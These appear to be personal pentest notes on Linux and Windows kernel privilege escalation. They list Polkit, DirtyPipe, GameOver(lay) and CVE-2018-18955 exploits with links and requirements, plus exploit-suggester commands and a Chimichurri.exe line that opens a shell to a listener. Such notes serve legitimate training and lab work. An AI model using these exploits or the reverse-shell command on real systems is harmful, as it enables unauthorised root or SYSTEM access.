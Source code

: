 Linpeas is decent but do not treat it at gospel

Use uname -a, /etc/os-release and /etc/issue
campare with linpease output

then `searchsploit #.#.#-###` and google search too
## Linux Kernel Exploits

https://github.com/FuzzySecurity/Unix-PrivEsc/tree/master

Polkit
	https://www.exploit-db.com/exploits/50011
	Requirements
		polkit 0.105-26 (Ubuntu), polkit 0.117-2 (Fedora)
	Tested on
		Ubuntu 20.04, Fedora 33
	Useage

[[DirtyPipe]]
	https://www.exploit-db.com/exploits/50808
	Requirements
		Linux Kernel 5.8 < 5.16.11
	`Usage: ./DirtyPipe SUID
		need access to a SUID

GameOver(lay) Ubuntu Privesc
	https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
```
Kernel version 	Ubuntu release

6.2.0 	Ubuntu 23.04 (Lunar Lobster) / Ubuntu 22.04 LTS (Jammy Jellyfish)

5.19.0 	Ubuntu 22.10 (Kinetic Kudu) / Ubuntu 22.04 LTS (Jammy Jellyfish)

5.4.0 	Ubuntu 22.04 LTS (Local Fossa) / Ubuntu 18.04 LTS (Bionic Beaver)
```

subuid_shell [CVE-2018-18955] 
	any of these
	you have do download the zip file that is referenced in the comment of exploit db (this is cron) https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47164.zip and then transfer over ALL the files
```
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (cron Method)                                      
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (dbus Method)                                      
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (ldpreload Method)                                 
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method)  
```



## Windows Kernel Exploits

First Identify the OS version with `systeminfo

Save the output and run against windows_exploit_suggester

Identify Potential Vulnerabilities
```
windows_exploit_suggester # Use on OLDER systems
	python3 -m pip install xlrd
	python2.7 windows-exploit-suggester.py --update
	python2.7 --database <database> --systeminfo <sysinfo>	

wesng #	Use on NEWER systems (post-2017)
	.\wes.py --update
	.\wes.py <systeminfo_file>
```

Then research

NOTE: If in a reverse shell, look for exploits that utilize ports as it is sometimes difficult for your current shell to upgrade to system. If we have RDP, that is different

Master list here: https://github.com/SecWiki/windows-kernel-exploits/tree/master

#### Examples

[MS10-059 -- Chimichurri](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled)
```
.\Chimichurri.exe <listen_ip> <listen_port>
```